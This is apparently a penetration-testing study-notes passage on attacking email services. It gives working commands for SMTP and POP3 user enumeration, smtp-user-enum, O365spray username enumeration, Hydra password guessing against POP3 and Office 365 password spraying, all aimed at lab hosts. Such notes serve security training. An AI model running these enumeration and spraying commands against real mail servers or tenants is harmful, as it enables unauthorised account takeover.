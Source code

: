 ##### RCPT TO Command
`RCPT TO` identifies the recipient of the email message. This command can be repeated multiple times for a given message to deliver a single message to multiple recipients.
```shell-session

RCPT TO:kate

550 5.1.1 kate... User unknown


RCPT TO:john

250 2.1.5 john... Recipient ok
```

##### USER Command
We can use *POP3* protocol to enumerate users depending on the service implementation. 
we can use the `USER` command and server will respond. 
```shell-session
USER julio

-ERR

USER john

+OK
```

To automate the enumeration process we can use [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)
```shell-session
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

***When using smtp-user-enum  USE ALL 3***
`VRFY` `RCPT` `EXPN`
### Cloud Enumeration
[O365spray](https://github.com/0xZDH/o365spray) spray is a username enumeration tool aimed at *Office 365*.
We first validate that a domain is using *O365*
```shell-session
python3 o365spray.py --validate --domain msplaintext.xyz
```

We can then enumerate with a username list.
```shell-session
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

### Password Attacks
We can use *Hydra* to preform a password attack against `SMTP`,`POP3`, or `IMAP4`.
```shell-session
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```
*Make sure to use @domain.com*
#### O365 Spray - Password Spraying
```shell-session
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
